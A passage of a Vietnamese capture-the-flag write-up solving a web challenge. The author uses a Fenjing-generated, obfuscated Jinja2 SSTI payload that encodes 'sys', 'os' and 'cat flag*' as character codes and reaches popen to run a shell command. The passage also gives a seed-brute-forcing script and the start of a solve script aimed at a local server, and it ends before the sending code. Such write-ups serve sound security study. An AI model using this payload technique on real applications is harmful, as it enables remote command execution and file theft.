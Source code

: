 Vì filter khá chặt nên mình xài 1 tool để gen payload: https://github.com/Marven11/Fenjing

![image](https://hackmd.io/_uploads/SkXTYmb9gg.png)

Ok và đã có payload SSTI để đọc flag nhưng vẫn còn bị dính `cycler` nên mình đổi thành `range`. Và payload SSTI cuối cùng mình có được là:

```python
{{(_1919.__eq__.__globals__[((((1).__mod__.__doc__[11]).__add__(range.__doc__[25])).__mul__(3)).__mod__((115,121,115))].modules[((((1).__mod__.__doc__[11]).__add__(range.__doc__[25])).__mul__(2)).__mod__((111,115))].popen(((((1).__mod__.__doc__[11]).__add__(range.__doc__[25])).__mul__(9)).__mod__((99,97,116,32,102,108,97,103,42)))).read()}}
```

script để tìm seed

```python
import random

# paste vào /api/cast_attck
input_str = "abcd123456789vaca{sfwwsasvczcXYZxyz0987654321moreTEXT{}"

# lấy từ response của request trên
server_output = "s3x45ZET6Ty26b9dmcs{0}89a4zvXca2avYfw{ws877crX1a13oezc5"

def shuffle_with_seed(s, seed):
    random.seed(seed)
    chars = list(s)
    random.shuffle(chars)
    return ''.join(chars)

candidates = []
for seed in range(51):
    result = shuffle_with_seed(input_str, seed)
    if result == server_output:
        candidates.append(seed)

print("seeds:", candidates)
```

solve script để gửi payload

```python
import random
import requests

URL = "http://127.0.0.1:5000/"
RANDOM_SEED = 43
target = "{{(_1919.__eq__.__globals__[((((1).__mod__.__doc__[11]).__add__(range.__doc__[25])).__mul__(3)).__mod__((115,121,115))].modules[((((1).__mod__.__doc__[11]).__add__(range.__doc__[25])).__mul__(2)).__mod__((111,115))].popen(((((1).__mod__.__doc__[11]).__add__(range.__doc__[25])).__mul__(9)).__mod__((99,97,116,32,102,108,97,103,42)))).read()}}"

def shuffle_indices(n, seed):
    random.seed(seed)
    idx = list(range(n))
    random.shuffle(idx)
    return idx

def unshuffle(shuffled_message, key):
    random.seed(key)
    l = list(range(len(shuffled_message)))
    random.shuffle(l)
    out = [None] * len(shuffled_message)
    for i, x in enumerate(l):
        out[x] = shuffled_message[i]
    return ''.join(out)
```